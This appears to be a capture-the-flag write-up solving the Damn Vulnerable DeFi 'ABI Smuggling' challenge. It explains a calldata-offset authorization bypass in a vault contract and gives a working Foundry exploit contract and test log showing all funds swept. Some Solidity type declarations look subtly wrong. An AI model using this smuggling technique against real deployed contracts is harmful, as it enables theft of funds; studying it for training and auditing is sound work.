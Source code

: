 # Damn Vulnerable Defi - ABI Smuggling
- Scope
    - AuthorizedExecutor.sol  
    - SelfAuthorizedVault.sol
- Tools
    - [Foundry](https://github.com/foundry-rs/foundry)

# Findings

### Vulnerability Details
1. The calldataOffset calculation allows us 'smuggle' any function call, as long as the position starting after 4+32*3 is an action that is approved `withdraw()`
2. There is no checks to determine how long the encoded bytes is, hence you is no maximum limit to the size of the bytes and we can sneak in malicious call data

```diff
function execute(address target, bytes calldata actionData) external nonReentrant returns (bytes memory) {
        // Read the 4-bytes selector at the beginning of `actionData`
        bytes4 selector;
-        uint256 calldataOffset = 4 + 32 * 3; // calldata position where `actionData` begins
        assembly {
            selector := calldataload(calldataOffset)
        }

        if (!permissions[getActionId(selector, msg.sender, target)]) {
            revert NotAllowed();
        }

        _beforeFunctionCall(target, actionData);

        return target.functionCall(actionData);
    }
```

### Impact/Proof of Concept
`execute()[4bytes]` `target[32bytes]` `offset_pointer[32bytes]` `Empty_Space[32bytes]` `withdraw()[32bytes]` `actionDataLength[32bytes]` `actionData[68bytes]`
1. First is add the `execute()` selector to call it
2. Next, we need to set the target of the calldata, which is the vault
3. Following, we need to tell the ABI the offset/location of the real actionData to start from, which should be from 0x80(128 bytes).  
4. This just need to be empty, so that it will pad the bytes to 4 + 32 * 3 bytes. Hence we just provide an empty bytes32()
5. This is the position where the `selector` is chosen. We need a `selector` that is an approved ActionId, which is `withdraw()` selector.
6. This portion we will include the length of the malicious bytes data to be read
7. Lastly, we include the malicious bytes data that will call `sweepFunds()`

```diff
function test_abiSmuggling() public checkSolvedByPlayer {
        console.log("vault balance: ", token.balanceOf(address(vault)));
        Exploit exploit = new Exploit(address(vault),address(token),recovery);
        bytes memory payload = exploit.executeExploit();
        address(vault).call(payload);
        console.log("vault balance: ", token.balanceOf(address(vault)));
        console.log("recovery balance: ", token.balanceOf(address(recovery)));
    }

contract Exploit {
    SelfAuthorizedVault public vault;
    IERC20 public token;
    address public player;
    address public recovery;

    // Event declarations for logging
    event LogExecuteSelector(bytes executeSelector);
    event LogTargetAddress(bytes target);
    event LogDataOffset(bytes dataOffset);
    event LogEmptyData(bytes emptyData);
    event LogWithdrawSelectorPadded(bytes withdrawSelectorPadded);
    event LogActionDataLength(uint actionDataLength);
    event LogSweepFundsCalldata(bytes sweepFundsCalldata);
    event LogCalldataPayload(bytes calldataPayload);

    constructor(address _vault, address _token, address _recovery) {
        vault = SelfAuthorizedVault(_vault);
        token = IERC20(_token);
        recovery = _recovery;
        player = msg.sender;
    }

    function executeExploit() external returns (bytes memory) {
        require(msg.sender == player, "Only player can execute exploit");

        // `execute()` function selector
        bytes4 executeSelector = vault.execute.selector;

        // Construct the target contract address, which is the vault address, padded to 32 bytes
        bytes32 memory target = abi.encodePacked(bytes12(0), address(vault));

        // Construct the calldata start location offset
        bytes32 memory dataOffset = abi.encodePacked(uint256(0x80)); // Offset for the start of the action data

        // Construct the empty data filler (32 bytes of zeros)
        bytes32 memory emptyData = abi.encodePacked(uint256(0));

        // Manually define the `withdraw()` function selector as `d9caed12` followed by zeros
        bytes32 memory withdrawSelectorPadded = abi.encodePacked(
            bytes4(0xd9caed12),     // Withdraw function selector
            bytes28(0)              // 28 zero bytes to fill the 32-byte slot
        );

        // Construct the calldata for the `sweepFunds()` function
        bytes32 memory sweepFundsCalldata = abi.encodeWithSelector(
            vault.sweepFunds.selector,
            recovery,
            token
        );

        // Manually set actionDataLength to 0x44 (68 bytes)
        uint256 actionDataLengthValue = sweepFundsCalldata.length;
        emit LogActionDataLength(actionDataLengthValue);
        bytes memory actionDataLength = abi.encodePacked(uint256(actionDataLengthValue));


        // Combine all parts to create the complete calldata payload
        bytes32 memory calldataPayload = abi.encodePacked(
            executeSelector,              // 4 bytes
            target,                       // 32 bytes
            dataOffset,                   // 32 bytes
            emptyData,                    // 32 bytes
            withdrawSelectorPadded,       // 32 bytes (starts at the 100th byte)
            actionDataLength,             // Length of actionData
            sweepFundsCalldata            // The actual calldata to `sweepFunds()`
        );

        // Emit the calldata payload for debugging
        emit LogCalldataPayload(calldataPayload);

        // Return the constructed calldata payload
        return calldataPayload;
    }
}
```

Results
```diff
[PASS] test_abiSmuggling() (gas: 397270)
Logs:
  vault balance:  1000000000000000000000000
  vault balance:  0
  recovery balance:  1000000000000000000000000
```


